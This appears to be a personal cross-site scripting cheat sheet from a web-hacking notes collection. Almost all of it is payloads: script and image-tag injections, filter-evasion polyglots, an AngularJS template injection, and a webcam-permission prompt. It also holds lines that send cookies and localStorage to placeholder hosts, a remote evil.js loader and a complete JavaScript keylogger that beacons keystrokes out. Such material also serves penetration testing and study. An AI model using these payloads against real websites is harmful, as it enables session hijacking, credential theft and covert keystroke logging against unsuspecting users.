 # Xss
#web #hacking

## HTML injection (without XSS)
```
<b>hacking</b>
<img src="https://cdn.pixabay.com/photo/2017/03/08/19/39/hacked-2127635__180.png"></img>
```

## Quick snippets
```
<script>alert(123)</script>
“><script>alert(document.cookie)</script>
<SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<iframe onload=alert(1)></iframe>
<IMG SRC=/ onerror="alert(1)"></img>
<IMG SRC=/ onerror="alert(JSON.stringify(window.localStorage))"></img>
$.get(encodeURI("http://127.0.0.1:8000/stolen_creds?" + JSON.stringify(window.localStorage)
<iframe frameBorder="0" height="1" width="1" onload=$.getScript("http://127.0.0.1:8000/evil.js")></iframe>foo
<iframe/src=javascript:alert(1)>
<iframe/src=javascript:console.log('foo')>
<iframe/src=http://localhost:8000/evil.html>
```

# Angular JS
```
{{constructor.constructor('alert(1337)')()}}
```

# Ask for webcam permissions
```
<script>
if (navigator.mediaDevices.getUserMedia) {
  navigator.mediaDevices.getUserMedia({ video: true })
    .then(function (stream) {
      alert("Thanks for sharing your webcam with the security team!")
    })
    .catch(function (error) {
      alert("We'll get you another way!")
    });
}
</script>
```

# Emoji payload
```
"><script>alert("💻👿😀")</script>
```

# Data extraction
Cookies: `document.cookie`
Domain: `document.domain`
Localstorage: `JSON.stringify(window.localStorage)`

## Extracting from localStorage
Extracting key and subkeys
```
JSON.parse(window.localStorage.getItem('key')).subkey
```

# Data exfiltration
## Post to webhook
Requires jQuery
```
$.get(encodeURI("http://127.0.0.1:8000/stolen_creds?"+JSON.stringify(window.localStorage)))
```

## Via redirect
Simple, but the redirect could give things away (unless in an iframe)
```
window.location.href='http://localhost:8000/steal?'+myPayload
```

# Cheat sheets
* https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
* http://www.xss-payloads.com/payloads-list.html?a#category=all
* https://netsec.expert/posts/xss-in-2021/

# Javascript keylogger
https://github.com/JohnHoder/Javascript-Keylogger/blob/master/keylogger.js
```
var keys='';
var url = 'http://127.0.0.1:8000/keylogger?c=';

document.onkeypress = function(e) {
	get = window.event?event:e;
	key = get.keyCode?get.keyCode:get.charCode;
	key = String.fromCharCode(key);
	keys+=key;
}
window.setInterval(function(){
	if(keys.length>0) {
		new Image().src = url+keys;
		keys = '';
	}
}, 1000);
```
# XSS Polyglots
* https://chefsecure.com/courses/xss/recipes/polyglots-the-ultimate-xss-payloads
* https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

# Javascript Payload Sites
http://www.xss-payloads.com/payloads-list.html?a#category=all

# Owasp
https://owasp.org/www-community/xss-filter-evasion-cheatsheet
